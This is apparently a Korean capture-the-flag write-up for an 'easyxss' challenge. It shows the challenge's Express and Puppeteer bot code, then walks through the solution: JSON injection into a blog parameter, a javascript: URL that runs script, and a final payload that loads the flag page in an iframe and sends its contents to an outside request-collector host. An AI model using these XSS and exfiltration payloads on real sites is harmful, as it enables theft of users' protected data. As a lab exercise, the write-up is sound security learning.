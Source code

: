 ## easyxss
---

+ index.js

```javascript
const parse = require('url-parse');
const express = require('express');
const bot = require('./bot');
const router = express();

router.get('/', (req, res) => {
    const blog = req.query.blog || 'https://pocas.kr';
    const user = JSON.parse(`{"username":"Tester", "setblog":"${blog}"}`);
    const url = parse(user['setblog'], true)
    , hostname = url.hostname;

    if ((hostname === 'web-noob.kr' && user['username'] === 'hello') || (hostname === 'web-noob.kr' && username === 'world')) {
        console.log(1)
        res.render('index', {url:url});
    } else {
        res.render('index', {url:'#'});
    }
});

router.get('/flag', (req, res) => {
    const session = req.cookies.jsession || undefined;
    if (session === 'DELETE') {
        result = 'pocas{fakeflag}';
    } else {
        result = 'You are not admin';
    }
    res.render('flag', {result:result});
});

router.get('/report', (req, res) => {
    res.render('report.ejs');
});

router.post('/report', (req, res) => {
    try{
        bot(req.body.pay);
        res.send('<script>alert("Good Report!");history.go(-1);</script>');
    } catch (err) {
        res.send('<script>alert("Internal Server Error!");history.go(-1);</script>');
    }
});

module.exports = router;
```

<br>

+ bot.js

```javascript
const puppeteer = require('puppeteer');
const parse = require('url-parse');

const cookies = [{
    name: 'jsession',
    value: 'DELETE',
    domain: "127.0.0.1",
    httpOnly:true
}];

const bot = async function (url){
    const URL = parse(url, true)
    try{
        const browser = await puppeteer.launch({
            headless: true,
            args: [
                '--no-sandbox',
                '--disable-setuid-sandbox',
                '--disable-dev-shm-usage'
            ],
            dumpio: true,
        });
        page = await browser.newPage('http://127.0.0.1:80');
        await page.setCookie(...cookies);

        console.log(URL.href)
        await page.goto(`http://127.0.0.1:80/?blog=${URL.href}`);
        setTimeout(() => {
            browser.close();
        }, 4000);
    } catch (err) {
        console.log(`err : ${err}`);
    }
}

module.exports = bot;
```

<br><br>

## Solution
---

플래그 부분을 보면 jsession 쿠키가 DELETE 값을 가지면 플래그를 보여준다.

그래서 그냥 해봤지만 역시 안됬고, bot.js 파일을 보면 거기서 쿠키를 세팅하는 것을 알 수 있다.

그래서 bot을 이용해서 접근을 해야한다 생각했다. (나중에 생각남..)

<br>

bot을 보면 blog 파라미터에 값을 설정해서 보내는 것을 확인할 수 있는데, 코드를 보면 JSON 값을 parse 한 뒤, ```user['username']```과 ```hostname```을 확인하여 조건을 만족하면 url 값을 보낸다.

이 부분은 다음과 같이 설정할 수 있다. ----> ```javascript://web-noob.kr","username":"hello```

<br>

그 다음이 문제다.. 이제 뭘 해야 하는가?

엄청난 시도를 통해 자바스크립트 코드를 실행을 하게 되었다.

<br>

```javascript://web-noob.kr//%0aalert(1);","username":"hello``` ----> alert(1) 실행

<br>

여기까지는 OK.. 이제 플래그 페이지 안에 있는 플래그를 읽어야 하는데.. 여기서 너무나 오래 걸렸다..

어떻게 읽어서 보내는가?

오랜 시간 문제를 풀다보니 머리가 어떻게 된건지 생각이 나지 않았다..

<br>

방법은 iframe을 생성해서 flag 페이지를 불러온 뒤 그 안에 있는 p태그의 값을 불러와서 서버로 보내주면 되는 것이다.

우선 프레임이 생성되는지 확인을 해야 한다.

<br>

```javascript://web-noob.kr//%250aconst%20a=document.createElement`iframe`;a.src=%27/flag%27;document.body.appendChild(a);","username":"hello```

<br>

프레임까지는 생성이 된다.

그래서 이제 프레임 속 값만 가져오면 되니까 행복회로 돌리면서 먼저 콘솔 창에서 확인해보았다.

<br>

```document.querySelector('iframe').contentWindow.document.body.querySelector('p').innerHTML```

<br>

ㅋㅋ 이제 이걸 location.href로 서버로 보내면 값이 나올꺼라 생각하며 보냈는데? null이 뜬다고 한다..

하.. 여기서 중요한 사실을 깨달았다.

빨리 자바스크립트 공부를 해야 한다.. 자바스크립트는 비동기 방식이라고 한다.

비동기 방식은 코드가 실행되고 결과 값을 받아오기까지를 기다리지 않는 거라고 한다.

그래서 아마 iframe이 실행되고 코드를 가져오기 전에 위의 코드가 실행되므로 innerHTML으로 받아와버려서 값이 없는 것이였다.

따라서 다 받아온 뒤에 하기로 했다.

<br>

```%22,%22username%22:%22hello%22,%22setblog%22:%22javascript://web-noob.kr/%250alet%20a=document.createElement('iframe');a.setAttribute('src','/flag');document.body.appendChild(a);setTimeout(function(){let%20c=document.querySelector('iframe').contentWindow.document.querySelector('.center p').innerText;location.href='http://kfwsgjw.request.dreamhack.games/?data=%27.concat(c)%7D,3000)```

<br>

setTimeout으로 좀 늦춘 다음에 코드를 실행시켜서 iframe이 다 받아온 다음에 읽어서 보냈다.

ㅇㅋ ```You are not admin!```이 왔다.

따라서 이제 report에서 값을 보내주면 쿠키가 생성된 다음 로컬호스트가 flag로 간 다음 플래그가 있는 p 태그의 값을 읽어서 서버로 보내줄 것이다!!

휴.. 


